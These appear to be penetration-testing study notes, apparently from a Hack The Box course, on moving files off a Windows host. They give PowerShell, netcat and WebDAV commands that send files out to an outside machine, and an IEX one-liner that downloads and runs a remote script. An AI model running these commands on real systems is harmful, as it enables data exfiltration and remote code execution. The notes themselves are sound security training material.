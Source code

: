 

## Upload Operations


```powershell-session
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
```

```shell-session
pradyun2005@htb[/htb]$ echo base64_content | base64 -d > hosts
```


- Using Upload server

file upload UI available at `/upload` dir
```shell-session
python3 -m uploadserver
```


PowerShell Script to Upload a File to Python Upload Server, using `PSUpload.ps1
`
```powershell-session
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
```

```powershell-session
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

- Base64 Upload
sender
```powershell-session
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
```

```powershell-session
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

receiver

```shell-session
nc -lvnp 8000
```

- using SMB

reciever
```shell-session
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```

sender (DavWWWRoot is for / directory)
```cmd-session
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
```
